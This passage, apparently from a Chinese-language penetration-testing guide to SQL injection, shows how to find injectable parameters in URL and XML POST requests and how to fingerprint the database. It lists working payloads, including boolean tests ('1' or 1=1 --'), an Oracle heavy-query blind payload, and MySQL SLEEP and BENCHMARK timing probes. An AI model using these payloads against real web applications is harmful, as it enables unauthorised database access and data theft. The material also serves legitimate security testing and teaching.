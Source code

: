 ```
POST / HTTP/1.1
Host: netspi.com.com
Content-Type: application/xml
Content-Length: 79
<root>
<username>harold</username>
<email>harold@netspi.com</email>
</root>
```

**POST - XML**  
 在具有 Content-Type 为 application/xml 的标准 HTTP POST 请求中，注入通常在一个内部。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用`'`）

```
SELECT CASE WHEN (\*PARTIAL\_BLIND\_QUERY\*)=1 THEN (SELECT count(\*) FROM all\_users a, all\_users b, all\_users c, all\_users d) ELSE 0 END FROM dual
```

### **检测注入**

通过在应用程序中触发错误和布尔逻辑，可以最轻松地检测易受攻击的参数。提供格式错误的查询将触发错误，并且使用各种布尔逻辑语句发送有效查询将触发来自 Web 服务器的不同响应。

注：True 或 False 语句应通过 HTTP 状态码或 HTML 内容返回不同的响应。如果这些响应与查询的 True/False 性质一致，则表示存在注入。

<table width="677"><thead><tr><th>描述</th><th width="280" align="center">语句</th></tr></thead><tbody><tr><td>逻辑测试</td><td width="55" align="center">page.asp?id=1 or 1=1 -- true&nbsp;<br>page.asp?id=1' or 1=1 -- true<br>page.asp?id=1" or 1=1 -- true<br>page.asp?id=1 and 1=2 -- false</td></tr><tr><td>算术</td><td width="55" align="center">product.asp?id=1/1 -- true<br>product.asp?id=1/0 -- false</td></tr><tr><td>基于盲注：<br>检测盲注可能需要识别或猜测 DBMS，<br>并检查以找到适当的时间函数。</td><td width="55" align="center">下文讲解<br></td></tr><tr><td>基于错误：<br>注意：使用无效语法的逻辑测试和算术<br>也可能会导致错误。</td><td width="55" align="center">下文讲解</td></tr></tbody></table>

**0x01** **DBMS 识别**
--------------------

检测正在使用的数据库管理系统（DBMS）对于进一步利用注入来说至关重要。没有这些知识，就无法确定要查询的表，内置的函数以及要避免的检测。下面查询的成功响应表明正在使用所选的 DBMS.

注意：注释字符 `--` 放置在查询后面，以删除查询后面的任何命令，有助于防止出现错误。

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>SLEEP</td><td align="center">page.php?id=1'-SLEEP(1)=0 LIMIT 1 --</td></tr><tr><td>BENCHMARK</td><td align="center">page.php?id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --</td></tr><tr><td>字符串连接</td><td align="center">page.php?id=''mysql' --</td></tr><tr><td>错误消息<br>注意：通过无效语法触发数据库错误<br>有时会返回包含 DBMS 名称的详细错误消息。</td><td align="center">page.php?id='</td></tr></tbody></table>

##### **一般提示**

PHP 应用程序通常具有 MySQL 数据库。

##### 将查询转换为注入

既然已经确定了注入点，本指南的其余部分将包含完整的查询。使用以下方法将这些查询插入注入点。`SELECT @@version`将是示例查询。
